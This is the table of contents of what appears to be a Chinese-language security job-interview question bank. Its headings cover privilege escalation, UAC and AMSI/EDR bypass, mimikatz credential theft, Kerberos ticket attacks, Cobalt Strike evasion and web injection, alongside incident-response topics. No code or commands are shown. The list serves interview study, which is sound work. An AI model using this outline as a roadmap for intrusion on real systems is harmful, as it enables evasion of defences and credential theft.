    - [✅ 总结一句话（建议背诵）：](#-总结一句话建议背诵)
    - [✅ 可选补充（加分点）：](#-可选补充加分点)
  - [✓实现R3层HOOK的方式有哪些，R0层的HOOK又有哪些? (★)](#实现R3层HOOK的方式有哪些R0层的HOOK又有哪些-)
    - [✅ 一、什么是 HOOK？](#-一什么是-HOOK)
    - [✅ 二、R3 层 HOOK 的常见方式：](#-二R3-层-HOOK-的常见方式)
    - [✅ 三、R0 层 HOOK 的常见方式：](#-三R0-层-HOOK-的常见方式)
    - [✅ 四、总结一段话（面试模板）：](#-四总结一段话面试模板)
  - [✓Linux下如何准确实现应用识别，如识别nginx mysql等 (★)](#Linux下如何准确实现应用识别如识别nginxmysql等-)
    - [✅ 一、识别方法总览：](#-一识别方法总览)
    - [✅ 二、实用命令举例](#-二实用命令举例)
    - [✅ 1. 识别是否安装：](#-1-识别是否安装)
    - [✅ 2. 识别是否运行：](#-2-识别是否运行)
    - [✅ 3. 查看监听端口：](#-3-查看监听端口)
    - [✅ 4. 获取版本信息：](#-4-获取版本信息)
    - [✅ 5. 应用识别扫描工具（可选）：](#-5-应用识别扫描工具可选)
    - [✅ 三、如何精准识别 vs. 静态判断](#-三如何精准识别-vs-静态判断)
    - [✅ 总结回答模板（背诵）：](#-总结回答模板背诵)
  - [✓假设某Linux机器存在命令审计(方法未知)，有哪些可能的绕过方法? (★★)](#假设某Linux机器存在命令审计方法未知有哪些可能的绕过方法-)
  - [✓Linux常见的提权方法有哪些?(★★)](#Linux常见的提权方法有哪些)
    - [✅ 一、内核漏洞提权（脏牛等）](#-一内核漏洞提权脏牛等)
    - [✅ 二、SUID 提权](#-二SUID-提权)
    - [✅ 三、环境变量提权](#-三环境变量提权)
    - [✅ 四、定时任务（cron）提权](#-四定时任务cron提权)
    - [✅ 五、服务/守护进程提权](#-五服务守护进程提权)
    - [✅ 六、可写配置文件提权](#-六可写配置文件提权)
    - [✅ 七、滥用 sudo 权限](#-七滥用-sudo-权限)
    - [✅ 八、服务漏洞提权](#-八服务漏洞提权)
    - [✅ 九、内存信息/凭证泄露](#-九内存信息凭证泄露)
    - [✅ 总结一句话（建议背诵）：](#-总结一句话建议背诵)
  - [✓僵尸进程和孤儿进程的区别是什么? (★)](#僵尸进程和孤儿进程的区别是什么-)
    - [✅ 僵尸进程 vs 孤儿进程 的区别：](#-僵尸进程-vs-孤儿进程-的区别)
    - [✅ 面试回答示例：](#-面试回答示例)
  - [✓UAC是如何进行鉴权校验的? BypassUAC的常见方法有哪些? (★★)](#UAC是如何进行鉴权校验的-BypassUAC的常见方法有哪些-)
    - [✅ 什么是 UAC？](#-什么是-UAC)
    - [✅ UAC 鉴权流程：](#-UAC-鉴权流程)
    - [✅ 常见的 Bypass UAC 方法：](#-常见的-Bypass-UAC-方法)
    - [🛠️ 1.白名单绕过（可执行的 auto-elevate 程序）](#️-1白名单绕过可执行的-auto-elevate-程序)
    - [🛠️ 2.注册表劫持（UACME、PowerSploit 等工具常用）](#️-2注册表劫持UACMEPowerSploit-等工具常用)
    - [🛠️ 3.DLL 劫持（DLL Hijacking）](#️-3DLL-劫持DLL-Hijacking)
    - [🛠️ 4.环境变量劫持](#️-4环境变量劫持)
    - [🛠️ 5.修改计划任务或服务（需部分提权）](#️-5修改计划任务或服务需部分提权)
    - [🛠️ 6.COM 接口劫持](#️-6COM-接口劫持)
    - [✅ 防护措施：](#-防护措施)
    - [✅ 面试回答总结版：](#-面试回答总结版)
  - [✓SSDT表是什么，如何在系统中找到SSDT表并进行hook? (★)](#SSDT表是什么如何在系统中找到SSDT表并进行hook-)
    - [✅ 一、什么是 SSDT？](#-一什么是-SSDT)
    - [✅ 二、SSDT 的作用](#-二SSDT-的作用)
    - [✅ 三、如何找到 SSDT 表？](#-三如何找到-SSDT-表)
    - [1. 在 Windows XP\~7 中：](#1-在-Windows-XP7-中)
    - [2. 在 Windows 8+（特别是 PatchGuard 开启时）](#2-在-Windows-8特别是-PatchGuard-开启时)
    - [✅ 四、如何对 SSDT 进行 HOOK？](#-四如何对-SSDT-进行-HOOK)
    - [⚠️ 注意：SSDT Hook 已被微软列为非法行为，PatchGuard 会检测并蓝屏！](#️-注意SSDT-Hook-已被微软列为非法行为PatchGuard-会检测并蓝屏)
    - [⚒️ 原理：](#️-原理)
    - [示例场景（Windows XP \~ 7）：](#示例场景Windows-XP--7)
    - [✅ 五、绕过 PatchGuard 的 Hook 方法（仅用于研究）](#-五绕过-PatchGuard-的-Hook-方法仅用于研究)
    - [✅ 六、面试简洁回答示例：](#-六面试简洁回答示例)
  - [✓Windows是如何进行权限控制的，具体的权限校验模型是什么? (★)](#Windows是如何进行权限控制的具体的权限校验模型是什么-)
    - [Windows权限控制机制与模型](#Windows权限控制机制与模型)
    - [1. 权限控制的核心组成](#1-权限控制的核心组成)
    - [2. Windows权限校验模型（基于ACL）](#2-Windows权限校验模型基于ACL)
    - [3. 具体流程示意](#3-具体流程示意)
    - [4. 其他相关控制](#4-其他相关控制)
    - [5. 简洁面试回答示例](#5-简洁面试回答示例)
  - [✓psexec的底层实现原理是什么? (★)](#psexec的底层实现原理是什么-)
    - [1. 服务安装与通信](#1-服务安装与通信)
    - [2. 利用 SMB 和远程管理协议](#2-利用-SMB-和远程管理协议)
    - [3. 标准输入输出重定向](#3-标准输入输出重定向)
    - [4. 进程权限与上下文](#4-进程权限与上下文)
    - [5. 清理工作](#5-清理工作)
    - [简单总结（面试模板）](#简单总结面试模板)
  - [✓SSP接口中修复了哪个模块杜绝了mimikatz的恶意利用，具体是如何修复的？(★★)](#SSP接口中修复了哪个模块杜绝了mimikatz的恶意利用具体是如何修复的)
    - [1. 背景：Mimikatz 利用 SSP 接口](#1-背景Mimikatz-利用-SSP-接口)
    - [2. 修复的核心模块：msv1\_0.dll 和 Credential Guard](#2-修复的核心模块msv1_0dll-和-Credential-Guard)
    - [3. 具体修复方式](#3-具体修复方式)
    - [(1)增强内存保护和完整性校验](#1增强内存保护和完整性校验)
    - [(2)凭据隔离](#2凭据隔离)
    - [(3)认证过程改进](#3认证过程改进)
    - [4. 总结（面试回答示例）](#4-总结面试回答示例)
  - [✓内网KDC服务器开放在哪个端口，针对kerbores的攻击有哪些? (★★★)](#内网KDC服务器开放在哪个端口针对kerbores的攻击有哪些-)
    - [1. 内网 KDC 服务器开放端口](#1-内网-KDC-服务器开放端口)
    - [2. 针对 Kerberos 的常见攻击方法](#2-针对-Kerberos-的常见攻击方法)
    - [★★★ 2.1 黄金票据攻击（Golden Ticket）](#-21-黄金票据攻击Golden-Ticket)
    - [★★★ 2.2 白银票据攻击（Silver Ticket）](#-22-白银票据攻击Silver-Ticket)
    - [★★★ 2.3 票据传递攻击（Pass-the-Ticket）](#-23-票据传递攻击Pass-the-Ticket)
    - [★★★ 2.4 Kerberoasting](#-24-Kerberoasting)
    - [★★★ 2.5 AS-REP Roasting](#-25-AS-REP-Roasting)
    - [★★★ 2.6 票据重放攻击](#-26-票据重放攻击)
    - [★★★ 2.7 KDC 反射攻击（KDC Relay）](#-27-KDC-反射攻击KDC-Relay)
    - [3. 面试回答示例](#3-面试回答示例)
  - [✓在win10或者winserver2012中，如果需要使用mimikatz，该如何使用，修改注册表后如何在不重启机器的情况下获取NTLM? (★★)](#在win10或者winserver2012中如果需要使用mimikatz该如何使用修改注册表后如何在不重启机器的情况下获取NTLM-)
    - [1. 使用 Mimikatz 获取 NTLM 的基本步骤](#1-使用-Mimikatz-获取-NTLM-的基本步骤)
    - [2. 修改注册表开启凭据缓存（或关闭凭据保护）](#2-修改注册表开启凭据缓存或关闭凭据保护)
    - [3. 如何在不重启机器情况下让注册表生效并能立即获取NTLM？](#3-如何在不重启机器情况下让注册表生效并能立即获取NTLM)
    - [方案一：重启相关服务](#方案一重启相关服务)
    - [方案二：重新加载注册表配置（间接生效）](#方案二重新加载注册表配置间接生效)
    - [方案三：使用 Mimikatz 直接针对内存的sekurlsa::minidump 模块](#方案三使用-Mimikatz-直接针对内存的sekurlsaminidump-模块)
    - [4. 备注](#4-备注)
    - [5. 面试回答示例](#5-面试回答示例)
  - [✓域内如何查询员工对应的机器? (★)](#域内如何查询员工对应的机器-)
    - [一、通过Active Directory查询员工对应机器](#一通过Active-Directory查询员工对应机器)
    - [1. 查询用户登录的计算机（LastLogonComputer）](#1-查询用户登录的计算机LastLogonComputer)
    - [2. 查询用户的计算机对象](#2-查询用户的计算机对象)
    - [3. 查询域日志或登录事件](#3-查询域日志或登录事件)
    - [4. 查询计算机上的登录用户（反向查询）](#4-查询计算机上的登录用户反向查询)
    - [5. 使用 SCCM 或第三方资产管理工具](#5-使用-SCCM-或第三方资产管理工具)
    - [面试简答示例](#面试简答示例)
  - [✓如何查询域之间的信任关系? (★)](#如何查询域之间的信任关系-)
    - [一、什么是域信任关系？](#一什么是域信任关系)
    - [二、查询域信任关系的方法](#二查询域信任关系的方法)
    - [1. 使用Active Directory Domains and Trusts 工具（图形界面）](#1-使用Active-Directory-Domains-and-Trusts-工具图形界面)
    - [2. 使用 PowerShell 查询](#2-使用-PowerShell-查询)
    - [3. 使用命令行工具nltest](#3-使用命令行工具nltest)
    - [4. 使用netdom 命令](#4-使用netdom-命令)
    - [三、面试简答示例](#三面试简答示例)
  - [✓域控开放的常见端口有哪些?(★)](#域控开放的常见端口有哪些)
    - [域控（Domain Controller）常见开放端口](#域控Domain-Controller常见开放端口)
    - [面试简答示例](#面试简答示例)
  - [✓windows内网中ntlm协议认证过程 (★★★)](#windows内网中ntlm协议认证过程-)
    - [Windows NTLM 认证过程概述](#Windows-NTLM-认证过程概述)
    - [NTLM 认证三次握手流程](#NTLM-认证三次握手流程)
    - [详细步骤解释](#详细步骤解释)
    - [NTLMv1 vs NTLMv2](#NTLMv1-vs-NTLMv2)
    - [面试简答示例](#面试简答示例)
  - [✓cobalt strike中上线方式有哪些，各自是什么原理，如果需要绕过监控，如何绕? (★★)](#cobalt-strike中上线方式有哪些各自是什么原理如果需要绕过监控如何绕-)
    - [1. Cobalt Strike 上线方式](#1-Cobalt-Strike-上线方式)
    - [1.1 HTTP/HTTPS C2 (Command and Control)](#11-HTTPHTTPS-C2-Command-and-Control)
    - [1.2 DNS C2](#12-DNS-C2)
    - [1.3 SMB C2 / Named Pipe](#13-SMB-C2--Named-Pipe)
    - [1.4 TCP Beacon](#14-TCP-Beacon)
    - [1.5 HTTPS Proxy / SOCKS5 Relay](#15-HTTPS-Proxy--SOCKS5-Relay)
    - [2. 绕过监控的常用方法](#2-绕过监控的常用方法)
    - [2.1 流量伪装](#21-流量伪装)
    - [2.2 延迟与抖动（Sleep/Jitter）](#22-延迟与抖动SleepJitter)
    - [2.3 加密与编码](#23-加密与编码)
    - [2.4 利用合法服务转发](#24-利用合法服务转发)
    - [2.5 内存执行与文件无痕](#25-内存执行与文件无痕)
    - [3. 面试回答示例](#3-面试回答示例)
  - [✓横向渗透中，wmic如何构造有回显的命令执行? (★★)](#横向渗透中wmic如何构造有回显的命令执行-)
    - [1. WMIC 远程执行原理](#1-WMIC-远程执行原理)
    - [2. 常见带回显的 WMIC 命令执行方法](#2-常见带回显的-WMIC-命令执行方法)
    - [方法一：借助临时文件](#方法一借助临时文件)
    - [方法二：利用 PowerShell 远程执行并输出结果](#方法二利用-PowerShell-远程执行并输出结果)
    - [方法三：利用wmic 返回值间接获取信息](#方法三利用wmic-返回值间接获取信息)
    - [3. 进阶技巧：利用wmic 执行带回显的命令（绕过无回显限制）](#3-进阶技巧利用wmic-执行带回显的命令绕过无回显限制)
    - [4. 面试简答示例](#4-面试简答示例)
  - [✓windows应急响应中，需要查看哪些安全日志ID，分别对应哪些攻防场景，如果该windows主机为域控，又应该查看哪些事件日志? (★★★)](#windows应急响应中需要查看哪些安全日志ID分别对应哪些攻防场景如果该windows主机为域控又应该查看哪些事件日志-)
    - [1. 重要安全日志 ID 及对应攻防场景](#1-重要安全日志-ID-及对应攻防场景)
    - [2. 域控特有的重点日志](#2-域控特有的重点日志)
    - [3. 面试简答示例](#3-面试简答示例)
  - [✓golden ticket和sliver ticket的区别是什么? (★★★)](#golden-ticket和sliver-ticket的区别是什么-)
    - [1. Golden Ticket（黄金票据）](#1-Golden-Ticket黄金票据)
    - [2. Silver Ticket（白银票据）](#2-Silver-Ticket白银票据)
    - [3. 主要区别对比](#3-主要区别对比)
    - [面试简答示例](#面试简答示例)
  - [✓sliver ticket利用的前置条件是什么?(★)](#sliver-ticket利用的前置条件是什么)
  - [✓在非域主机的情况下，如何快速发现域主机？ (★★)](#在非域主机的情况下如何快速发现域主机-)
    - [1. 查看本地配置获取域信息](#1-查看本地配置获取域信息)
    - [2. 使用nslookup或dig 查询域名解析](#2-使用nslookup或dig-查询域名解析)
    - [3. 扫描常见域控端口](#3-扫描常见域控端口)
    - [4. 利用 NetBIOS 及LDAP广播查询](#4-利用-NetBIOS-及LDAP广播查询)
    - [5. 使用网络流量分析](#5-使用网络流量分析)
    - [面试简答示例](#面试简答示例)
  - [✓mimikatz的原理，哪个补丁导致了mimikatz无法利用，如何绕过? (★★)](#mimikatz的原理哪个补丁导致了mimikatz无法利用如何绕过-)
    - [1. Mimikatz 的原理](#1-Mimikatz-的原理)
    - [2. 导致 Mimikatz 无法利用的关键补丁](#2-导致-Mimikatz-无法利用的关键补丁)
    - [3. 绕过方法](#3-绕过方法)
    - [3.1 绕过 LSA 保护（RunAsPPL）](#31-绕过-LSA-保护RunAsPPL)
    - [3.2 利用“手工转储+离线分析”](#32-利用手工转储离线分析)
    - [面试简答示例](#面试简答示例)
  - [✓有没有办法在不重启机器的前提下启用wdigest这个SSPI? (★)](#有没有办法在不重启机器的前提下启用wdigest这个SSPI-)
    - [背景说明](#背景说明)
    - [不重启机器启用 WDigest 的方法](#不重启机器启用-WDigest-的方法)
    - [注意](#注意)
    - [面试简答示例](#面试简答示例)
  - [✓NTLM relay的攻击场景有哪些，使用NTLM relay会受到哪些限制? (★)](#NTLM-relay的攻击场景有哪些使用NTLM-relay会受到哪些限制-)
    - [1. NTLM Relay 攻击场景](#1-NTLM-Relay-攻击场景)
    - [2. NTLM Relay 的限制](#2-NTLM-Relay-的限制)
    - [面试简答示例](#面试简答示例)
  - [✓windows中如何鉴别用户身份? SID是什么? 基于SID的SID History攻击原理是什么? (★)](#windows中如何鉴别用户身份-SID是什么-基于SID的SID-History攻击原理是什么-)
    - [1. Windows 中如何鉴别用户身份？](#1-Windows-中如何鉴别用户身份)
    - [2. SID 是什么？](#2-SID-是什么)
    - [3. 基于 SID 的 SID History 攻击原理](#3-基于-SID-的-SID-History-攻击原理)
    - [面试简答示例](#面试简答示例)
  - [✓假设拿到了某台域机器的权限，但是机器上并没有域账户，应该如何进行域渗透? (★★)](#假设拿到了某台域机器的权限但是机器上并没有域账户应该如何进行域渗透-)
    - [1. 利用本地权限进行横向渗透的挑战](#1-利用本地权限进行横向渗透的挑战)
    - [2. 域渗透常用方法](#2-域渗透常用方法)
    - [2.1 获取本地管理员凭据](#21-获取本地管理员凭据)
    - [2.2 利用已缓存的域凭据](#22-利用已缓存的域凭据)
    - [2.3 利用 Kerberos 票据或 Token](#23-利用-Kerberos-票据或-Token)
    - [2.4 利用信任关系与服务账户](#24-利用信任关系与服务账户)
    - [2.5 利用内网探测与端口扫描](#25-利用内网探测与端口扫描)
    - [3. 面试简答示例](#3-面试简答示例)
  - [✓域的初始化配置允许任何域用户登录任意加了域的机器，这是为什么? (★)](#域的初始化配置允许任何域用户登录任意加了域的机器这是为什么-)
    - [原因解析](#原因解析)
    - [1. 默认本地“远程登录权限”配置](#1-默认本地远程登录权限配置)
    - [2. 本地安全策略和组策略未进行限制](#2-本地安全策略和组策略未进行限制)
    - [3. “Authenticated Users”或“Domain Users”默认被授予访问权限](#3-Authenticated-Users或Domain-Users默认被授予访问权限)
    - [解决建议](#解决建议)
    - [面试简答示例](#面试简答示例)
  - [✓如何查询域管登录过的机器，查询原理又是什么? (★)](#如何查询域管登录过的机器查询原理又是什么-)
    - [1. 查询方法](#1-查询方法)
    - [方法一：使用事件日志（推荐）](#方法一使用事件日志推荐)
    - [方法二：查询计算机上的登录事件](#方法二查询计算机上的登录事件)
    - [方法三：使用 PowerShell 脚本结合域查询](#方法三使用-PowerShell-脚本结合域查询)
    - [2. 查询原理](#2-查询原理)
    - [面试简答示例](#面试简答示例)
- [下面为微信公众号爬取—-—————-—---—](#下面为微信公众号爬取-----)
- [渗透测试的思路？](#渗透测试的思路)
- [漏洞扫描的时候应该注意哪些事项？](#漏洞扫描的时候应该注意哪些事项)
- [打点一般会用什么漏洞？](#打点一般会用什么漏洞)
- [说下平时怎么做代码安全审计的，具体思路？](#说下平时怎么做代码安全审计的具体思路)
- [免杀常见的hook方法有哪些，并简单介绍？](#免杀常见的hook方法有哪些并简单介绍)
- [渗透测试过程中如何信息收集，能说一下渗透测试信息收集方法吗？](#渗透测试过程中如何信息收集能说一下渗透测试信息收集方法吗)
- [渗透都用哪些工具？](#渗透都用哪些工具)
- [Linux Polkit权限提升漏洞原理？](#Linux-Polkit权限提升漏洞原理)
- [约束与非约束委派攻击的利用和原理？](#约束与非约束委派攻击的利用和原理)
- [进程迁移，如何绕过defender查杀远程线程注入？](#进程迁移如何绕过defender查杀远程线程注入)
- [常见免杀思路？](#常见免杀思路)
- [AMSI遇到过吗？怎么绕过？](#AMSI遇到过吗怎么绕过)
- [常见搭配---操作系统、中间件、脚本语言、数据库](#常见搭配---操作系统中间件脚本语言数据库)
- [渗透测试过程如何判断对方操作系统是什么操作系统？](#渗透测试过程如何判断对方操作系统是什么操作系统)
- [内网渗透，无法连接外网，没有回显，获取数据？](#内网渗透无法连接外网没有回显获取数据)
- [如何拿到管理员密码？](#如何拿到管理员密码)
- [如果拿到管理员密码被加密解不开怎么办？](#如果拿到管理员密码被加密解不开怎么办)
- [进入内网后如何查找域控服务器？](#进入内网后如何查找域控服务器)
- [拿到高权限后如何降权？](#拿到高权限后如何降权)
- [Wiondows常见事件ID？](#Wiondows常见事件ID)
- [windows登录类型？](#windows登录类型)
- [工作中有遇到过一些紧急事件吗？如何处理的？](#工作中有遇到过一些紧急事件吗如何处理的)
- [nmap全端口扫描怎么做？常用的参数有哪些？](#nmap全端口扫描怎么做常用的参数有哪些)
- [sqlmap常用参数有哪些？](#sqlmap常用参数有哪些)
- [扫网站敏感目录用什么工具？](#扫网站敏感目录用什么工具)
- [OWASP top10有哪些？](#OWASP-top10有哪些)
- [怎么拿到域管理员权限？](#怎么拿到域管理员权限)
- [永恒之蓝和0708攻击方式有什么区别？](#永恒之蓝和0708攻击方式有什么区别)
- [mysql UDF提权.dll文件，版本大于多少放那个文件夹下，小于多少放到哪个文件夹下？](#mysql-UDF提权dll文件版本大于多少放那个文件夹下小于多少放到哪个文件夹下)
- [应急响应的基本流程是什么？](#应急响应的基本流程是什么)
- [应急响应检查哪些措施？](#应急响应检查哪些措施)
- [常见的病毒有哪些？](#常见的病毒有哪些)
- [Linux应急响应流程？如何定位问题文件？](#Linux应急响应流程如何定位问题文件)
- [SQL注入的原理是什么？](#SQL注入的原理是什么)
- [报错注入的函数有哪些？ ](#报错注入的函数有哪些)
- [延时注入如何来判断？](#延时注入如何来判断)
- [盲注和延时注入的共同点？](#盲注和延时注入的共同点)
- [打点一般会用什么漏洞？](#打点一般会用什么漏洞)
- [什么是shiro反序列化？](#什么是shiro反序列化)
- [shiro反序列化有几种漏洞类型？](#shiro反序列化有几种漏洞类型)
- [linux的日志存放在哪个目录下？](#linux的日志存放在哪个目录下)
- [windows事件ID一般是多少？](#windows事件ID一般是多少)
- [SQL注入如何防御？](#SQL注入如何防御)
- [sql注入写一个webshell怎么操作？](#sql注入写一个webshell怎么操作)
- [Fastjson如何防御？](#Fastjson如何防御)
- [fastjson不出网怎么打？](#fastjson不出网怎么打)
- [使用了域前置怎么溯源？](#使用了域前置怎么溯源)
- [内存马怎么查杀？](#内存马怎么查杀)
- [sqlserver怎么获取os-shell的？](#sqlserver怎么获取os-shell的)
- [如何判断一个sqlserver的注入能否执行系统命令？](#如何判断一个sqlserver的注入能否执行系统命令)
- [请说出mysql5.0以下与5.0以上的区别？](#请说出mysql50以下与50以上的区别)
- [一般怎么拿webshell？](#一般怎么拿webshell)
- [就某一个你擅长的漏洞，深刻讲讲里面的原理？怎么挖掘？怎么验证？](#就某一个你擅长的漏洞深刻讲讲里面的原理怎么挖掘怎么验证)
- [IIOP听说过吗？](#IIOP听说过吗)
- [RMI是什么，有什么用？](#RMI是什么有什么用)
- [RMI的相关漏洞有没有接触过？](#RMI的相关漏洞有没有接触过)
- [shiro漏洞不出网情况下怎么办？](#shiro漏洞不出网情况下怎么办)
- [溯源会用些什么工具或者在线网站，都可以说说常用的服务和对应的端口？](#溯源会用些什么工具或者在线网站都可以说说常用的服务和对应的端口)
- [struts2原理特征？](#struts2原理特征)
- [Java反序列化的特征？](#Java反序列化的特征)
- [如何反制CS？](#如何反制CS)
- [溯源反制常见思路？](#溯源反制常见思路)
- [EDR如何绕过？](#EDR如何绕过)
- [说一下常见红队工具流量的特征？](#说一下常见红队工具流量的特征)
- [shellcode怎么做免杀？](#shellcode怎么做免杀)
- [shellcodeloader怎么做免杀？](#shellcodeloader怎么做免杀)
- [怎么隐藏IAT？](#怎么隐藏IAT)
- [拿到webshell不出网情况下怎么办？](#拿到webshell不出网情况下怎么办)
- [dns出网协议怎么利用？](#dns出网协议怎么利用)
- [横向渗透命令执行手段？](#横向渗透命令执行手段)
- [psexec和wmic或者其他的区别？](#psexec和wmic或者其他的区别)
- [Dcom怎么操作？](#Dcom怎么操作)
- [抓取密码的话会怎么抓？](#抓取密码的话会怎么抓)
- [mimikatz什么版本之后抓不到密码？](#mimikatz什么版本之后抓不到密码)
- [讲一下常见提权思路？](#讲一下常见提权思路)
- [权限维持有哪些方法？](#权限维持有哪些方法)
- [杀软对内存检查是什么策略？](#杀软对内存检查是什么策略)
- [如何绕过3环的钩子？](#如何绕过3环的钩子)
- [什么是SSDT表？](#什么是SSDT表)
- [360是怎么防御0环的？](#360是怎么防御0环的)
- [为什么有的时候需要降权？](#为什么有的时候需要降权)
- [杀软一般是怎么限制句柄进程的？](#杀软一般是怎么限制句柄进程的)
- [defender的核心进程是哪个，3x0呢？](#defender的核心进程是哪个3x0呢)
- [xss怎么getshell？](#xss怎么getshell)
- [XSS限制httponly时，有什么思路？](#XSS限制httponly时有什么思路)
- [sqlsever怎么在xpcmd禁用的情况拿shell？](#sqlsever怎么在xpcmd禁用的情况拿shell)
- [java的所有反序列化简单讲一讲？](#java的所有反序列化简单讲一讲)
- [mimikatz抓不到密码的话怎么办？](#mimikatz抓不到密码的话怎么办)
- [域内攻击方法有了解过吗？](#域内攻击方法有了解过吗)
- [桌面有管理员会话，想要做会话劫持怎么做？](#桌面有管理员会话想要做会话劫持怎么做)
- [弹窗函数除了alert还有别的吗？](#弹窗函数除了alert还有别的吗)
- [XSS绕过有哪些方式？](#XSS绕过有哪些方式)
- [windows内存0环的有哪些属性？](#windows内存0环的有哪些属性)
- [如何挖掘dll劫持？](#如何挖掘dll劫持)
- [dll劫持如何挖掘维权dll？](#dll劫持如何挖掘维权dll)
- [windows提权方式？](#windows提权方式)
- [常用中间件漏洞？](#常用中间件漏洞)
- [如果一个站点使用了CDN，如何进行绕过获取真实ip?](#如果一个站点使用了CDN如何进行绕过获取真实ip)
- [XXE-xml实体注入的原理？](#XXE-xml实体注入的原理)
- [如何避免xml实体注入漏洞？](#如何避免xml实体注入漏洞)
- [要发现验证码的问题，会从那些角度去找？](#要发现验证码的问题会从那些角度去找)
- [举例三种业务逻辑漏洞，以及修复方式？](#举例三种业务逻辑漏洞以及修复方式)
- [http传输的过程？](#http传输的过程)
- [lsass上了PPL，在不上驱动的情况下，有杀软的环境如何规避？](#lsass上了PPL在不上驱动的情况下有杀软的环境如何规避)
- [windows最高权限是administrator吗？](#windows最高权限是administrator吗)
- [windows最高权限是system吗？](#windows最高权限是system吗)
- [为什么在摘取windows defender的令牌代码里，为什么要用winlogon.exe的令牌? 用其他进程的令牌可以吗?](#为什么在摘取windows-defender的令牌代码里为什么要用winlogonexe的令牌-用其他进程的令牌可以吗)
- [蚁剑的特征？](#蚁剑的特征)
- [哥斯拉的特征？](#哥斯拉的特征)
- [冰蝎的特征？](#冰蝎的特征)
- [CS的流量特征？](#CS的流量特征)
- [相关内存马的特征？](#相关内存马的特征)
- [SQL注入的分类](#SQL注入的分类)
- [SQL注入的预防](#SQL注入的预防)
- [序列化与反序列化的区别](#序列化与反序列化的区别)
- [数据库有哪些，关系型的和非关系型的分别是哪些](#数据库有哪些关系型的和非关系型的分别是哪些)
- [PHP代码执行的危险函数](#PHP代码执行的危险函数)
- [PHP命令执行函数](#PHP命令执行函数)
- [常见的中间件漏洞](#常见的中间件漏洞)
- [内网渗透思路](#内网渗透思路)
- [Windows提权](#Windows提权)
- [Windows常用的提权方法](#Windows常用的提权方法)
- [Linux提权有哪些方法](#Linux提权有哪些方法)
- [正向代理和反向代理的区别](#正向代理和反向代理的区别)
- [正向SHELL和反向SHELL的区别](#正向SHELL和反向SHELL的区别)
- [攻防实战中有哪些优秀案例](#攻防实战中有哪些优秀案例)
- [说下蓝队经历](#说下蓝队经历)
- [挖过SRC吗](#挖过SRC吗)
- [写过工具吗，熟悉什么语言](#写过工具吗熟悉什么语言)
- [xss攻击方式和防护](#xss攻击方式和防护)
- [sql注入原理，类型，防护方式](#sql注入原理类型防护方式)
- [渗透测试流程](#渗透测试流程)
- [app安全测试怎么做](#app安全测试怎么做)
- [iot安全测试怎么做](#iot安全测试怎么做)
- [如果让你设计开发一款漏扫工具，你会如何设计开发](#如果让你设计开发一款漏扫工具你会如何设计开发)
- [在实际攻防中，蜜罐越来越多，详细聊聊你对蜜罐的认知。](#在实际攻防中蜜罐越来越多详细聊聊你对蜜罐的认知)
- [应急响应怎么策划，怎么做？](#应急响应怎么策划怎么做)
- [PHP代码审计，你是如何审计的，说说你比较熟悉的函数。](#PHP代码审计你是如何审计的说说你比较熟悉的函数)
- [如何绕过waf？](#如何绕过waf)
- [探测是否为容器环境](#探测是否为容器环境)
- [shiro反序列化](#shiro反序列化)
- [Java Runtime为什么要bash编码：](#Java-Runtime为什么要bash编码)
- [java反序列化利用失败的原因可能有哪些：](#java反序列化利用失败的原因可能有哪些)
- [shiro反序列化绕waf：](#shiro反序列化绕waf)
- [fastjson反序列化](#fastjson反序列化)
- [fastjson反序列化漏洞原理：](#fastjson反序列化漏洞原理)
- [如何理解反序列化：](#如何理解反序列化)
- [rmi和ldap是什么：](#rmi和ldap是什么)
- [fastjson版本号怎么获取：](#fastjson版本号怎么获取)
- [fastjson不出网如何利用](#fastjson不出网如何利用)
- [fastjson绕过waf：](#fastjson绕过waf)
- [cobalt strike相关问题](#cobalt-strike相关问题)
- [域前置：](#域前置)
- [BOF：](#BOF)
- [execute-assembly：](#execute-assembly)
- [内存马](#内存马)
- [如何识别内存马：](#如何识别内存马)
- [如何查杀内存马：](#如何查杀内存马)
- [分享一些实战案例](#分享一些实战案例)
- [内网kerberos认证，金银票据，bypassuac，dll注入\劫持，ACL](#内网kerberos认证金银票据bypassuacdll注入劫持ACL)
- [Kerberos 认证流程：](#Kerberos-认证流程)
- [PTH\&PTT\&PTK](#PTHPTTPTK)
- [bypass uac](#bypass-uac)
- [ACL](#ACL)
- [dll注入\劫持](#dll注入劫持)
- [psexec与wmicxec有什么区别](#psexec与wmicxec有什么区别)
- [关于域委派攻击](#关于域委派攻击)
- [关于约束委派的防范措施：](#关于约束委派的防范措施)
- [ntlm relay](#ntlm-relay)
- [什么是relay？](#什么是relay)
- [内网常见的CVE/横向方式](#内网常见的CVE横向方式)
- [内网横向移动比较关注的东西](#内网横向移动比较关注的东西)
- [exchange(ssrf+rce)/Vcenter](#exchangessrfrceVcenter)
- [Exchange相关的打法](#Exchange相关的打法)
- [寻找Vcenter：](#寻找Vcenter)
- [Vcenter相关的打法](#Vcenter相关的打法)
- [信息收集](#信息收集)
- [内网不出网上线方式](#内网不出网上线方式)
- [redis未授权](#redis未授权)
- [文件上传](#文件上传)
- [CSRF与CORS](#CSRF与CORS)
- [CORS漏洞绕过：](#CORS漏洞绕过)
- [cors与jsonp的区别：](#cors与jsonp的区别)
- [xss bypass:](#xss-bypass)
- [httponly怎么绕过：](#httponly怎么绕过)
- [csp（Content-Security-Policy）:](#cspContent-Security-Policy)
- [如何绕过csp：](#如何绕过csp)
- [sql注入：](#sql注入)
- [常见的绕过方法：](#常见的绕过方法)
- [盲注除了sleep还有什么什么函数：](#盲注除了sleep还有什么什么函数)
- [笛卡尔注入原理是什么：](#笛卡尔注入原理是什么)
- [SQLSERVER注入没有回显怎么办](#SQLSERVER注入没有回显怎么办)
- [xp\_cmdshell被删除怎么办：](#xp_cmdshell被删除怎么办)
- [SQLSERVER不支持堆叠如何开启xp\_cmdshell](#SQLSERVER不支持堆叠如何开启xp_cmdshell)
- [SQL注入getshell方法,](#SQL注入getshell方法)
- [SQL注入防御方法：](#SQL注入防御方法)
- [windows&\&linux提权的方式](#windowslinux提权的方式)
- [权限维持（从用户和权限这2块来说）](#权限维持从用户和权限这2块来说)
- [AD\&CS](#ADCS)
- [条件竞争](#条件竞争)
- [代码审计](#代码审计)
- [XSS漏洞挖掘技巧，](#XSS漏洞挖掘技巧)
- [登录窗口/后台的渗透思路](#登录窗口后台的渗透思路)
- [Docker逃逸](#Docker逃逸)
- [Log4j2漏洞原理](#Log4j2漏洞原理)
- [Log4j2绕过waf：](#Log4j2绕过waf)
- [后门清理/各类日志](#后门清理各类日志)
- [我想问的](#我想问的)
- [ntlm验证机制  ](#ntlm验证机制--)
